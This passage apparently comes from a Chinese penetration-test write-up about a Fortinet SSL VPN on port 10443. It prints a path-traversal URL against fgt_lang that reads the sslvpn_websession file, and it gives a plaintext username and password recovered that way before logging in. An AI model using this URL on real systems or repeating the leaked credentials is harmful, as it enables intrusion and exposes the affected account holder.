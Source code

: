 ​	10443端口为飞塔VNP，<https://1.x.x.198:10443/remote/>

![22](https://havocykp.github.io/assets/images/img_blog14/22.png)

使用文件读取漏洞读取到session文件，获取用户名密码为：wanglijia/DNBgtspslz

<https://1.x.x.198:10443/remote/fgt_lang?lang=/../../../..//////////dev/cmdb/sslvpn_websession>

![23](https://havocykp.github.io/assets/images/img_blog14/23.png)

登录系统

![24](https://havocykp.github.io/assets/images/img_blog14/24.png)

